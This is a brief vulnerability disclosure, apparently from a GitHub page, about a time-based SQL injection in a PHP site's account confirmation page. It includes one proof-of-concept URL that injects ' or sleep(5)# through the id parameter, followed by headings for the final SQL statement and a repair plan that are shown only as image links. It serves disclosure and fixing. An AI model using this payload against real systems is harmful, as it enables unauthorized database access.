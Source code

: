 poc

```
http://stu/account/confirm.php?id=12345678901234567890123456789012'+or+sleep(5)%23
```

final sql statement

![image-20230121023006473](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301211436733.png)

Repair plan

framework/Accounts.php#userIdFromConfirmcode()

![image-20230121023335610](https://wanan-1310031509.cos.ap-beijing.myqcloud.com/img/202301211436528.png)

# 
